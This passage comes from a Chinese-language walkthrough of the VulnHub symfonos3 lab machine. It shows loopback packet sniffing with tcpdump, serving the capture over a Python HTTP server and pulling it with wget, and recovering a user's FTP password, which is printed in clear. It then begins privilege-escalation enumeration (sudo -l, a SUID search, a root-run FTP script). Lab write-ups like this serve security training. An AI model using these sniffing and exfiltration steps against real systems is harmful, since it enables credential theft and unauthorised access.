 ```bash
cd /tmp
tcpdump -D
tcpdump -w lo.pcap -i lo
```

运行命令后静静等待一段时间,再将抓好的包传给分析数据的机器

```bash
cd /tmp
python -m SimpleHTTPServer
```

```bash
wget 192.168.141.150:8000/lo.pcap
```

- 注1 : 这段过程要重复 ctrl+c 断 nc 连接,重连数次,要有耐心
- 注2 : 第一次 tcpdump 后再次执行报无权限,我直接重装了靶机,直接 tcpdump lo 口

这次分析看下
```
tcp.dstport == 21
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos3/27.png)

发现 hades 的密码 PTpZTfU4vxgzvRBE

---

# 后期-垂直提权

登录,尝试提权
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```

和 cerberus 一样啥都没有,突然想到之前 pspy 抓的进程中 ftp 脚本是以 uid0 定时运行的
```bash
cd /opt/ftpclient/
ls
cat ftpclient.py
```
